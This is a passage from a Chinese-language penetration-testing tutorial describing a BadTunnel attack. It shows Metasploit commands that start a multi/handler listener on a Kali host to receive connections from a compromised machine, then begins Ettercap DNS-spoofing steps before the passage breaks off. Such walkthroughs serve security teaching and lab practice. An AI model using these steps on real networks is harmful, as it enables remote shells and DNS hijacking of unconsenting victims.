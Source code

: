 现在，为了允许连接，我们需要设置一个 multi/handler 来接受系统被入侵后的入站连接。从我们正在运行 BadTunnel 的 Metasploit 终端开始，我们将启动`multi/handler`并在后台运行。在 Metasploit 中，运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.139 # Kali's IP address.
set LPORT 445 # Set the listening port. The payload is set to 445.
run -j # Start the handler in the background.  
```

![](img/e89e7ba0-13e1-4c87-82bb-414e83240ae4.png)

# Ettercap 设置

Ettercap 是一个很棒的欺骗工具，在本书中我们已经经常使用它，现在我们将再次使用它。我们需要欺骗 DNS 服务并将其指向我们的 Kali 框。Ettercap 附带了一个专门用于此目的的插件。在这次攻击中，由于我们的 Kali 框局限于受害者网络，我们可以使用 GUI 版本。您会在 Sniffing & Spoofing | ettercap-graphical 下找到它。该过程如下：
